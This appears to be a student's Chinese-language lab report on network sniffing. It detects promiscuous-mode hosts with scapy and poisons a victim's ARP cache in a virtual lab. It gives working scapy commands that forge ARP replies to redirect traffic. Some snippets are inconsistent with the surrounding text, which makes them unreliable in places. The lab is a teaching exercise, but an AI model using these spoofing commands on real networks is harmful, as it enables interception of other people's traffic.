

# 第四章——网络监听

### 零.网络拓扑


+ 网关
  + enp0s9：08:00:27:77:9d:82
  + 172.16.111.1
+ 攻击者主机
  + eth0：08:00:27:da:ea:bd
  + 172.16.111.127
+ 受害者主机
  + eth0：08:00:27:97:19:1f
  + 172.16.111.123

### 一.实验准备

###### apt更新与scapy安装：


### 二.实验操作

##### 实验一：检测局域网中的异常终端

检查受害者主机的混杂模式是否打开

```commonlisp
ip link show eth0
```

> 模拟的网络拓扑里，受害者主机仅连接了内部网络，只有eth0一张网卡

​		无promisc字段则未打开


攻击者开启scapy

```
scapy
```

​		scapy可能存在权限限制，输入sudo scapy 

用攻击者连接受害者，输入以下代码

```
pkt = promiscping(172.16.111.123)
```

​		发送后获得反馈如下


手动打开受害者的混杂模式

```
sudo ip link set eth0 promisc on
```

​		检查此时应该有promisc字段


在混杂模式下再次输入

```
pkt = promiscping(172.16.111.123)
```

得到



对比两次结果，可知：

> 在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

操作结束后受害者主机关闭混杂模式

```
sudo ip link set eth0 promisc off
```

##### 实验二：手工单步“毒化”目标主机的 ARP 缓存

###### 对受害者主机的arp进行毒化

获取网关的ip地址，在攻击者主机上构建一个arp请求，命令如下

``` 
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```

查看构建完成的arp请求

```
arpbroadcast.show()
```

发送arp广播请求

```python
recved = srp(arpbroadcast, timeout=2)
```

arp响应的目的地址设置为攻击者主机的地址

```
gw_mac = recved[0][0][1].hwsrc
arpspoofed=ARP(op=2, psrc="172.16.111.1",pdst="172.16.111.123",hwdst="08:00:27:da:ea:bd")
```

发送上述伪造arp响应数据包

```
sendp(arpspoofed)
```


与实验文本相悖的是，受害者主机上没有发生任何变化，即使多次传输arp包，多次更新也无济于事


经询问和查找资料，用send函数代替sendp可成功发送，如下所示


伪装网关给受害者发送请求

```python
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:77:9d:82", pdst="172.16.111.123", hwdst="08:00:27:97:19:1f")
sendp(restorepkt1, count=100, inter=0.2)
```

伪装受害者给网关发送请求

```python
restorepkt2 = ARP(op=2, psrc="172.16.111.123", hwsrc="08:00:27:97:19:1f", pdst="172.16.111.1", hwdst="08:00:27:77:9d:82")
sendp(restorepkt2, count=100, inter=0.2)
```

实验操作细则中的代码似乎有误


###### 恢复受害者主机的arp缓存记录

```
ping 172.16.111.1
```

等待几秒或重复操作，退出ping后再检查arp缓存

```
ip neigh
```

##### 自动化的实现

 [arp污染自动化.py](code/arp污染自动化.py) 

### 参考链接

[实验操作细则](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[send与sendp的用法](https://scapy.readthedocs.io/en/latest/usage.html)

[arp使用说明](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112?gi=d337a101f489)